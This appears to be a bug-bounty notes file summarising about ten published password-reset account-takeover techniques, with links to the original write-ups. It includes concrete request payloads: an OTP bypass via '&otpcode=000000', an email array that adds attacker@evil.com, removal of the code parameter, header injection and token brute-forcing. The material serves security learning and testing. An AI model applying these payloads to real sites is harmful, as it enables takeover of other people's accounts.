 # Password Reset Flaw 

---
<br> 
1 > Token Leak in referrer header 

Link :- https://medium.com/@shahjerry33/password-reset-token-leak-via-referrer-2e622500c2c1

- Go to any website and click on password reset
-  Go to Link we received in our mail
-  you can go to the other website and capture req for that if it is vuln password reset link will be in referrer header 

---
  
<br> 
2 >  Password reset link 

 [  link ](https://medium.com/bugbountywriteup/bugbounty-how-i-was-able-to-compromise-any-user-account-via-reset-password-functionality-a11bb5f863b3)

1.   he clicked password reset and this is what he got 
      http://www._________.com/account/resetpassword? id=296417&token=dGVzdGFjY291bnQwOUBnbWFpbC5jb20=&vit=MjAxNi8xMC8yNQ==

2.    token is actually base64 encoding of our email of that account 
3.    vt is time stamp which is also base64 encoded
4.    http://www._________.com/account/resetpassword/?id=254346&token=dmFydW4wOTgxMUBnbWFpbC5jb20=&vit=MjAxNi8xMC8yNQ= 

5.    this is different user he found id for that user by brute forcing and this link worked for him 

----
<br>
3 > Password Reset without submitting OTP

Link : https://medium.com/@ironfisto/tokopedia-account-takeover-bug-worth-8-million-idr-5474cb5b5cc9

when user want to reset password he will recive link 
https://accounts.tokopedia.com/otp/c/page?otp_type=132& email=ezgcmmfgc%40champmails.com&ld=https://account s.tokopedia.com/resetpassword?e=ZXpnY21tZmdjQGNoYW1wbWFpbHMuY29t

main part is https://accounts.tokopedia.com/resetpassword?e=ZXpnY21tZmdjQGNoYW1wbWFpbHMuY29t

add “&otpcode=000000” at the end of password reset URL. and no otp required 

----
<br>

 4 > Password Reset flaw 

Link : https://medium.com/@adeshkolte/full-account-takeover-changing-email-and-password-of-any-user-through-api-parameters-3d527ab27240

in this system have new password set after link clicking but in post we are sending the email too . you change email password reset done for that user too.

---
<br>
5 > Password Reset Link 

Link : 

lets suppose we have mail of ```johndoe@gmail.com ```
<br>

![this ](https://miro.medium.com/max/719/1*HJabwSnIwi3rWrAyZAbAdg.png)

Whenever you will request the reset link you will recieve token like this
<br>

![](https://miro.medium.com/max/1094/1*KvrYHQ_7-T2Lc0XVJLSfmg.png)  
<br>
</br>
we have mail timestamp and now we can bruteforce those two no and reset password for anyone.

----
6 > Passsword of victim to attacker 

The attacker was able to send a password reset link to an arbitrary email by sending an array of email addresses instead of a single email address.

```
POST https://hq.breadcrumb.com/api/v1/password_reset HTTP/1.1
with body like {"email_address":["admin@breadcrumb.com","attacker@evil.com"]}
```

----

7 > https://medium.com/@0xankush/readme-com-account-takeover-bugbounty-fulldisclosure-a36ddbe915be

in post he used parameter pollution email=some&email=some1

---

8 >  Token Being [Predictable](https://medium.com/@fatnassifiras45/how-i-was-able-to-take-over-any-account-via-the-password-reset-functionality-ef1659f8b481)

In Password Reset token Some part was same for different request . 

He found shorter duration more predictable token willl be 

SO he did Payloads: My 2 accounts emails.
Threads: 20
URL-Encode: OFF 

Now, after configuring burp intruder I launched the attack and boom I got 2 tokens that differ only in the last character.


---

9> Passsword reset in [mail.ru](https://medium.com/kminthein/account-takeover-in-cups-mail-ru-bdab1483f92c)

https://cups.mail.ru/faq/restore-password/restore?step=1

After entering user email into password reset functionality, one time password reset code is sent to their email and it redirected to
https://cups.mail.ru/faq/restore-password/restore?step=3


User then put their one time password and if password is correct, it redirects to https://cups.mail.ru/faq/restore-password/restore?step=4.

Then he can reset their password and the requests contains
{“password”:”password”,”email”:”user@gmail.com”,”code”:”onetimepassword”} .

Due to lack of access control in their password reset functionality, I can reset every user’s password. I visit https://cups.mail.ru/faq/restore-password/restore?step=4 and then I changed original request which is {“password”:”password”,”email”:”user@gmail.com”,”code”:”onetimepassword”} to {“password”:”reset”, “email”: “victim@gmail.com”}

After removing code parameter and forward the requests and then it redirected to
https://cups.mail.ru/faq/restore-password/restore?step=5


-----

10 > https://medium.com/bugbountywriteup/fun-with-header-and-forget-password-with-a-twist-af095b426fb2

X-Forwarded-Host: localhost 

---

s


